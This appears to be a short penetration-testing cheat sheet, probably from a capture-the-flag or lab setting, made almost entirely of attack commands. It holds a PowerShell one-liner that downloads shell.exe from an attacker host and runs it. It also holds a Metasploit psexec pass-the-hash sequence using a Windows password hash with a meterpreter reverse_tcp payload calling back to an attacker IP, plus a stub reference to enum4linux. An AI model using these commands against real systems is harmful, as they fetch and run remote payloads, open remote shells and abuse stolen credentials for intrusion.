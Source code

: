 # Powershell downloader

```
powershell.exe -Command "Invoke-WebRequest -Uri \"http://10.10.14.36:8000/shell.exe\" -OutFile \"C:\\Users\\kohsuke\\Desktop\\out.exe\"; Start-Process -Filepath \"C:\\Users\\kohsuke\\Desktop\\out.exe\"; Start-Sleep -s 360000"
```

# PSExec via LM-Hash
(https://mlcsec.com/abusing-windows-credentials/#pass-the-hash)
```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
msf exploit(psexec) > set SMBUser Administrator 
msf exploit(psexec) > set SMBDomain WORKGROUP
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set lhost AttackerIP
msf exploit(psexec) > set lport Port
msf exploit(psexec) > run
```

# Enum4Linux
#enum4linux
see [[enum4linux]]